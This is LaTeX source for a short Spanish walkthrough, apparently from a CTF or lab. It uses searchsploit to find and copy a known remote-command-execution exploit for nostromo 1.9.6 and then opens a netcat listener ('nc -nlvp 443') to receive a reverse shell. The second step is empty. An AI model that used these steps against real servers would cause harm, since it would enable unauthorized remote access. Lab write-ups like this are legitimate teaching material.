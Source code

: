 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
\hypertarget{searchsploit-1}{%
\subsection*{searchsploit}\label{searchsploit-1}}

Checkeamos si existe un exploit relacionado con \textbf{nostromo 1.9.6}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ nostromo }
\end{Highlighting}
\end{Shaded}

Hay un script en Python que permitiria hacer execucion de commandos. Nos traemos el script en el repertorio de trabajo.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -m 47837}
\FunctionTok{mv}\NormalTok{ 47837.py nostromo_exploit.py}
\end{Highlighting}
\end{Shaded}

Analizando el script con \texttt{cat}, vemos como se uza el exploit. Intentamos reproduzir los passos antes de crearnos nuestro
proprio script.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En una terminal

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  En otra terminal

\begin{Shaded}
\end{Shaded}
\end{enumerate}
\end{document}
